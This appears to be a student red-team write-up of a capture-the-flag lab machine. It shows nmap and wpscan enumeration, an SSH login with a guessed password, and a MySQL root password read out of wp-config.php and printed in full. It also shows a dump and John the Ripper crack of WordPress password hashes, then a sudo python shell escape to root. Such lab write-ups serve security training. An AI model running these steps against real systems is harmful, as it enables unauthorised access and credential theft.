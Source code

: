 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

## Exposed Services
Nmap scan results for each machine reveal the below services and OS details:  
~~~
nmap -sV 192.168.1  
~~~

![red1](https://user-images.githubusercontent.com/32025331/155894956-f1c31fe2-82f8-4a57-a74d-95c5a0dda68f.PNG)

This scan identifies the services below as potential points of entry:  
  
Target 1  
- OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)  
- Apache httpd 2.4.10 ((Debian))  
  
The following vulnerabilities were identified on each target:
- Target 1
- Weak server password
- Unsalted hashed passwords
- Unpatched WordPress software
  
 ## Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:


**flag1{b9bbcb33e11b80be759c4e844862482d}**  
Tools used: dirb, wpscan  
- Using dirb we were able to find a wordpress page: 192.168.1.110/wordpress  
- From there we ran wpscan: 
~~~
wpscan –url http://192.168.1.110/wordpress
~~~
![red2](https://user-images.githubusercontent.com/32025331/155894957-b9e4c47b-09d7-43ff-9d0f-d4a3ef808915.PNG)

We then found two login names: Steven and Michael  
![red3](https://user-images.githubusercontent.com/32025331/155894958-c2fc6d12-f3ff-47b4-93a7-9a038cbdac2a.PNG)
By sheer luck, we guessed the password without brute force:  
~~~
- ssh michael@192.168.1.110
- Password:  michael
cd ../../var/www/html
grep -RE flag1
~~~
![red4](https://user-images.githubusercontent.com/32025331/155894959-9c35c8ed-fc7c-4049-8b13-c03f6d785452.PNG)
  
**flag2{fc3fd58dcdad9ab23faca6e9a36e581c}**  
- Follow same steps as flag 1 to ssh into the server  
~~~ 
cd ../../var/www/
grep -RE flag2
~~~


**flag3{afc01ab56b50591e7dccf93122770cd2}**  
**flag4{715dea6c055b9fe3337544932f2941ce}**  
Tools used: SSH, MySQL  
~~~
ssh michael@192.168.1.110
Password: michael
cd /var/www/html/wordpress
nano wp-config.php  
~~~


~~~
mysql -u root -pR@v3nSecurity  
~~~

**Flag 4 from Steven’s account:  **  
- Tools used: SSH, MySQL, johntheripper  
- Using the MySQL credentials from before:  
~~~
mysql -u root -pR@v3nSecurity
show databases;
use wordpress;
show tables;
select user_login, user_pass from wp_users;
~~~
![red5](https://user-images.githubusercontent.com/32025331/155894960-bc91d0f1-f6ac-4d95-bc81-c3027734bba8.PNG)
This is where we found the hashed passwords.  
Exit back out to Kali. From here we can use John the Ripper:  
![red6](https://user-images.githubusercontent.com/32025331/155894961-05ed83c8-ab77-40f0-b8e0-33995815607d.PNG)
SSH into the webserver using Steven’s credentials:  
~~~
Ssh steven@192.168.1.110
Password: pink84
~~~
Now we run a python exploit:
~~~
sudo /usr/bin/python -c 'import os;os.system("/bin/sh")'
cd root
cat flag4.txt
~~~
[picture]
